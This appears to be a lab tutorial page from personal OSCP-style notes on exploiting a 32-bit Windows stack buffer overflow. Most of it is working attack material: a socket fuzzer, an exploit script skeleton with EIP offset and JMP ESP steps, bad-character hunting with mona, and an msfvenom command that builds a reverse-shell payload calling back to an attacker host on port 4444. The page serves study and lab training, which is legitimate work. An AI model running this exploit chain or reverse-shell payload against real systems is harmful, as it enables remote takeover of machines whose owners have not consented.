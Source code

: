 ```yaml
---
title: Windows BoF 32bit
category: Exploiting
order: 2 
---
```


# Stack-Based

For that task we are going to use a Windows 7 x64 with Immunity Debugger and mona.py installed.

## Mona configuration

`!mona config -set workingfolder c:\mona\%p`

## Fuzz to find the vulnerable input

fuzzer.py

```
import socket, time, sys

ip = "10.10.95.202"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

## Crash Replication & Crontrolling EIP

exploit.py

```
import socket

ip = "10.10.95.202"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

create a pattern: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600`

And add the output to a payload variable and exploited.

take notes about the EIP and search the offset:

`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q EIP`

Check adding `BBBB` value to `retn` variable.

## Finding Bad Characters

Find the characters that are not accepted on the payload. (REMEMBER FILL THE EIP)

`!mona bytearray -b "\x00"`

And add the output to the payload variable (without the offset)

Finally compare the binary file with the stack frame specifying the ESP.

`!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP>`

Repeat the process adding the new bad characters found until the results status returns **UNMODIFIED**

`!mona bytearray -b "\x00\x07\x2e\xa0"`

>**Note**: If the ESP direction does not match with the beginning of the payload fill it with NOPS (normally is `"\x90"\*8`)

## Finding a Jump Point

Find all "jmp esp" on the system `!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"`

>**Remember**: **Don't Forget** to put the **BAD CHARS** founded.

```
Log data, item 11
 Address=625011AF
 Message=  0x625011af : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\vulnerable-apps\oscp\essfunc.dll)
```

> **REMBEMBER LITTLE ENDIAN** `\x62\x50\x11\xAF (system) -> \xAF\x11\x50\x62 (exploit)`

Put the adress on the "retn" variable. If the EIP is the same as ESP you success at jummping to ESP.

## Generate the Payload

We will generate the payload with `msfvenom`.

> **Note**: Don't forget to put the previously found bad chars!

```
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.11.21.203 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f py

| sed 's/buf/payload/g'
```

> **Hint:** Using **EXITFUNC=thread** will only finish the thread once termintad the reverse shell without affecting the whole program. -> NO DoS

Copy the generated payload ant integrate it into the `exploit.py`

## Prepend NOPs

We will need some space in memory for the payload to unpack itself, if we added a padding before to match the beginning of the payload with ESP add another 16 NOPS.

```
padding = "\x90" * 16
```
